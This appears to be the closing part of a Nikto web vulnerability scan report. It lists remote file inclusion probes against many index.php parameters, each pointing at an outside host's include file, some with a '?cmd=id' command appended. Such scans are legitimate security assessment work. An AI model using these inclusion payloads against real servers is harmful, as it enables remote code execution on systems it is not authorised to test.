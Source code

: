 + /index.php?pagina=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?path_to_folder=http://blog.cirt.net/rfiinc.txt?cmd=id: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pg=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pg=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?phpbb_root_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?plugin=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?principal=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?proMod=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?proMod=http://blog.cirt.net/rfiinc.txt?cmd: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?project=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?repinc=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?root_prefix=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?root_prefix=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?section=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?site=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?site_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?styl[top]=http://blog.cirt.net/rfiinc.txt??: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?template=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?templates_dir=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?theme=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?themepath=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?themesdir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?this_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?txt=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?up=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?url=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?w=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?way=http://blog.cirt.net/rfiinc.txt??????????????: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ 8102 requests: 0 error(s) and 142 item(s) reported on remote host
+ End Time:           2023-05-12 12:47:13 (GMT1) (107 seconds)


